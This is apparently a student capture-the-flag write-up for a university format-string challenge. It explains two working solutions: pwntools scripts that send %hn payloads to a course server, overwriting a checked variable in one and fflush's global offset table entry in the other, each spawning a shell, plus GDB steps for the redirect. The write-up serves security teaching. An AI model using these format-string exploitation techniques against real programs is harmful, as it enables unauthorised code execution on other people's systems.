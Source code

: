 # WEEK 7 (Format Strings) - Challenge 3

## Introduction

In this challenge, we encountered a scenario similar to the one in task two, requiring a comparable attack. However, a notable obstacle arose: the target address ends with `\x20`, representing a space character. This posed a challenge as sending the address directly via the `scanf` function would be problematic.

To overcome this issue, we devised two effective workarounds and identified a third one that would be viable if the buffer size were larger.


## First way to solve

Our initial approach involved manipulating the original address, ending in `\x20`. We explored the neighboring addresses, specifically `address+1` and `address-1`. Instead of writing the usual 4 bytes using `%n`, we employed the `%hn` format to write the first 2 bytes (`be`) to `address+1`. Simultaneously, we crafted a write to `address-1` in a manner that caused an overflow, resulting in the original address being overwritten with the bytes `ef`.

To achieve this, we utilized the following script:


```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4008)

# address  =  0x804b320
# Wanted value - 48879

N = 50
payload = bytearray(0x0 for i in range(N))
number = 0x0804b320+1
payload[0:4] = (number).to_bytes(4, byteorder='little')
number = 0x0804b320-1
payload[4:8] = (number).to_bytes(4, byteorder='little')

s = "%1$182x%hn"+ "%1$61000x%hn"
fmt = (s).encode('latin-1')
payload[8:8 + len(fmt)] = fmt


p.recvuntil(b"here...")
p.sendline(payload)
p.interactive()

```
The execution of the program provided us with a shell that allowed us to cat the flag.txt and therefore solve this challenge.

## Second way to solve

The second approach was notably more challenging than the previous one, but it proved to be highly effective. This method involves altering the program flow by modifying the address in the global offset table of the `fflush` function, thereby bypassing the `if` statement that checks if the variable is `0xbeef`. This manipulation grants us access to a shell program.

To confirm the viability of this technique, we initially executed it within GDB, as follows:


```bash
gdb attach PID
disassemble main
```
Get the address that we want the fflush to redirect to in our case it is 0x080492e0
<img src="/images/flow_redirect.png" alt="Address to redirect from gdb">

To redirect the actual function we need to do this sequence of commands in the gdb described bellow:
```bash
b main
run
disassemble main
disassemble 0x80490c0 (endereço antes do jump)
x 0x804b2fc (informação sobre a global offset table)
set *0x804b2fc = 0x080492e0 (ir direto para a linha que prepara a shell para ser lançada não pode se direto para a linha a da shell)
```

By implementing this change, we effectively alter the program's flow, creating a jump from the `fflush` after the `printf` to the system call responsible for spawning a shell. After executing the modified main function in GDB, we observe the following result:

![Shell Spawned in Another Process by Forking](/images/output_gdb_hard.png)

This output indicates that the program successfully forked using the system call and executed a shell. Armed with this understanding, we devised the script below:


```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4008)

N = 50
payload = bytearray(0x0 for i in range(N))

number = 0x0804b2fc+2
payload[0:4] = (number).to_bytes(4, byteorder='little')

number = 0x0804b2fc
payload[4:8] = (number).to_bytes(4, byteorder='little')

s = "%1$2044x%hn" + "%1$35548x%hn"
fmt = (s).encode('latin-1')
payload[8:8 + len(fmt)] = fmt


p.recvuntil(b"here...")
p.sendline(payload)
p.interactive()
```

Due to the excessive size of the address, we had to resort once again to using `%hn`. To verify the correctness of our approach, we performed multiple GDB attaches, checking the address it now pointed to in the global offset table.

Through this process, we successfully discovered the flag by exploiting a shell spawn, effectively bypassing the `if` statement.

#### Font Used to Explore the Feasibility of This Attack: [LiveOverflow Explanation](https://www.youtube.com/watch?v=t1LH9D5cuK4)


## Third way that should be possible to solve

The first thing that actually came to our mind was to find a address ending in \x20 and modify just the start of it to the desired address but because we were limited in terms of the size of the buffer we ended up not being able to solve it like this.


